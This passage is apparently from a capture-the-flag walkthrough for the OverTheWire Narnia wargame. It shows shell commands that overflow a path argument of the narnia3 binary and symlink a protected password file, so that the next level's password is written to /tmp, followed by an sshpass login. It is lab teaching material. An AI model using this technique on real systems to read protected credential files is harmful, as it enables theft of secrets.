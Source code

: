Now, create a nested directory structure:
```bash
mkdir -p /tmp/BBBBBBBBBBBBBBBBBBBBBBBBBBB/tmp/
```

Next, create a symbolic link to the password file for Narnia4 in the newly created directory:
```bash
ln -s /etc/narnia_pass/narnia4 /tmp/BBBBBBBBBBBBBBBBBBBBBBBBBBB/tmp/wow
```

To check if the symbolic link was created successfully, list the contents of the directory:
```bash
ls /tmp/BBBBBBBBBBBBBBBBBBBBBBBBBBB/tmp/
```

You can also use the following command for more detailed information:
```bash

ls /tmp/BBBBBBBBBBBBBBBBBBBBBBBBBBB/tmp/ -la
```

Now, create a file named `wow` in the temporary directory:
```bash
touch /tmp/wow
```

Change the permissions of the `wow` file to make it writable:
```bash
chmod 777 /tmp/wow
```

Execute the Narnia3 program with the symbolic link as an argument:
```bash
/narnia/narnia3 /tmp/BBBBBBBBBBBBBBBBBBBBBBBBBBB/tmp/wow
```
<img src="./img/Screenshot 2024-09-15 202106.png"></img>
Finally, read the contents of the `wow` file to retrieve the password for the next level:
```bash
cat /tmp/wow

```
we got the password
Move to level 4
```bash
sshpass -p `cat narnia4` ssh narnia4@narnia.overthewire.labs.org -p 2226
```
```bash
cd /narnia
cat narnia4.c
```